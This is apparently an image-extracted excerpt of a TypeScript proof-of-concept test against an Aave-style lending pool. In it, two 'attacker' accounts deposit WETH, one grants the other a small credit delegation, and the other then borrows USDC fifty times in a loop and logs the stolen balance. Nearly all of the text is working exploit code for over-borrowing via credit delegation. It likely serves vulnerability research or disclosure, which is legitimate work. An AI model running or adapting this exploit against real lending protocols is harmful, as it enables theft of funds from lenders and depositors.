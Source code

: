 ```typescript
    await weth
      .connect(attackerAddress0.signer)
      .approve(pool.address, APPROVAL_AMOUNT_LENDING_POOL);

    await pool
      .connect(attackerAddress0.signer)
      .deposit(
        weth.address,
        0,
        ethers.utils.parseEther("10"),
        attackerAddress0.address,
        "0"
      );

    await weth
      .connect(attackerAddress1.signer)
      .mint(await convertToCurrencyDecimals(weth.address, "10"));

    await weth
      .connect(attackerAddress1.signer)
      .approve(pool.address, APPROVAL_AMOUNT_LENDING_POOL);

    await pool
      .connect(attackerAddress1.signer)
      .deposit(
        weth.address,
        0,
        ethers.utils.parseEther("10"),
        attackerAddress1.address,
        "0"
      );

    await debtToken
      .connect(attackerAddress1.signer)
      .approveDelegation(attackerAddress0.address, ethers.utils.parseEther("1"))

    for(var i=0; i<50;i++) {
      await pool
      .connect(attackerAddress0.signer)
      .borrow(
        usdc.address,
        0,
        await convertToCurrencyDecimals(usdc.address, "2000"),
        AAVE_REFERRAL,
        attackerAddress1.address
      );
    }
    var usdcBalance = await usdc.balanceOf(attackerAddress0.address)
    console.log("attacker balance: ", await convertToCurrencyUnits(usdc.address, usdcBalance.toString()))
  });
});
```
